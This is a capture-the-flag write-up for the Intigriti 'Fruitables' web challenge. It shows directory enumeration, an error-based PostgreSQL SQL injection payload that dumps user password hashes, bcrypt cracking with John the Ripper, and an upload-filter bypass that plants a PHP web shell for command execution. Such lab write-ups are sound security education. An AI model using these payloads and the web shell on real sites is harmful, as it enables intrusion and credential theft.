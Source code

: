 # Fruitables

A website about fruit? Probably no vulnerabilities there.. Move along everybody!

# Flag
```
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
```

# Solution
I explored all the pages but seemed to offer nothing of interest.

<img src="imgs/home.png">

Enumerate endpoints and directories using `dirsearch`:

```bash
dirsearch -u https://fruitables-0.ctf.intigriti.io/

...
# Interesting results:
[21:18:09] 200 -    7KB - /account.php
[21:18:57] 301 -  253B  - /uploads  ->  http://fruitables-0.ctf.intigriti.io/uploads/
...
```

Browsing to `/account.php` shows a registration page, but trying to register prompts us that registration is closed and only allows us to login.

<img src="imgs/login.png">

After conducting some fuzzing, I found an SQLI vulnerability when the username `bob'` is input.

```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near "'bob''" LINE 1: SELECT * FROM users WHERE username = 'bob'' ^ in /var/www/html/auth/fruitables_login.php:11 Stack trace: #0 /var/www/html/auth/fruitables_login.php(11): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/auth/fruitables_login.php on line 11
```

The nature of the error hints that the database is PostgreSQL. We can craft a payload that extracts data through error messages (reference from [portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):

```
bob'+UNION+SELECT+CAST((SELECT+password+FROM+users+LIMIT+1+OFFSET+2)+AS+int),'2','3','4','5','6
```

<img src="imgs/sqli.png">

Changing the LIMIT and OFFSET value, we can map out the `users` table as such:
```
| username      | password                                                      |
| ------------- | ------------------------------------------------------------- |
| cryptocat     | y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq         |
| invincible    | y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa        |
| tjfry_admin   | $2y$10$buhvcTHdjqnb2r0L15ilJefOlGTe1rpD31685K02KfOk7xizNisiy  |
```

We can use John the Ripper to crack the hash of `tjfry_admin`:

```bash
john --wordlist=/opt/rockyou.txt tjfry_admin.txt
```
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0% 0g/s 260.6p/s 260.6c/s 260.6C/s dragonball..outlaw
0g 0:00:00:47 0% 0g/s 264.1p/s 264.1c/s 264.1C/s nesha..100689
futurama         (?)
1g 0:00:00:49 100% 0.02014g/s 263.9p/s 263.9c/s 263.9C/s melbourne..090990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logging in with the credentials (`tjfry_admin`:`futurama`), we are redirected to the Admin Dashboard.

<img src="imgs/admin.png">

The file upload feature can potentially be exploited to upload a malicious PHP script?
After trying to upload some files, we learn that it only accepts JPEG and PNG files. These files are then renamed and available in `/uploads/`.

I had to utilise several bypass techniques to upload my PHP script, namely:
1. Specifying filename as `test.jpg.php`
2. Start file with JPEG magic bytes, then include PHP code under

```php
#JPEG magic bytes here..

<?php system($_REQUEST['cmd']); ?>  # execute commands in `cmd` query parameter
```

<img src="imgs/fileupload.png">

After the file is successfully uploaded, browse to it under the `/uploads/` folder and append a `cmd` query parameter to execute arbitrary commands on the target. Subsequently, we can find the name of the flag file and read its contents.

<img src="imgs/rce.png">